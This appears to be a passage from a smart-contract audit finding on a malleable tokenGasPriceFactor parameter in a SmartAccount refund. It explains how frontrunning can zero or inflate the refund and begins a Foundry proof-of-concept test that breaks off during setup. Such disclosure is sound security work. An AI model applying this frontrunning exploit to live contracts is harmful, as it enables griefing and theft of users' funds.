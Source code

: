 The value of `tokenGasPriceFactor` is used as a dividing factor to correct the gas calculation according to the token being used. This can potentially be exploited in two ways:

1. A griefer can modify the `tokenGasPriceFactor` parameter to a high value (e.g. `type(uint256).max`), which will significantly reduce the payment amount sent to `refundReceiver`. This is because `tokenGasPriceFactor` is the denominator in the division, and increasing its value will cause the result to approach zero.

2. A bad actor (possibly the `refundReceiver`) can modify the `tokenGasPriceFactor` parameter to a lower value to increase the payout. For example, if `tokenGasPriceFactor = 10`, the attacker could set `tokenGasPriceFactor = 1` to receive a 10x increase in the payout. This is because decreasing the `tokenGasPriceFactor` value will increase the result payment amount, since it is the dividing factor.

## PoC

This test illustrates the case of a griefer that frontruns the transaction and sets `tokenGasPriceFactor = type(uint256).max` which has the effect of nullifying the transfer, as the value will be 0.

Note: this test needs to be executed by setting a gas price. For example:

```
forge test -vvv --match-test=test_SmartAccount_MalleableRefundReceiver --gas-price=10
```

```solidity
contract MockToken is ERC20 {
    constructor ()
        ERC20("TST", "MockToken") {
    }

    function mint(address sender, uint amount) external {
        _mint(sender, amount);
    }
}

contract Foo {
    function foo() external returns (uint256) {
        return 42;
    }
}

contract AuditTest is Test {
    bytes32 internal constant ACCOUNT_TX_TYPEHASH = 0xc2595443c361a1f264c73470b9410fd67ac953ebd1a3ae63a2f514f3f014cf07;

    uint256 bobPrivateKey = 0x123;
    uint256 attackerPrivateKey = 0x456;

    address deployer;
    address bob;
    address attacker;
    address entrypoint;
    address handler;

    SmartAccount public implementation;
    SmartAccountFactory public factory;
    MockToken public token;

    function setUp() public {
        deployer = makeAddr("deployer");
        bob = vm.addr(bobPrivateKey);
        attacker = vm.addr(attackerPrivateKey);
        entrypoint = makeAddr("entrypoint");
        handler = makeAddr("handler");

```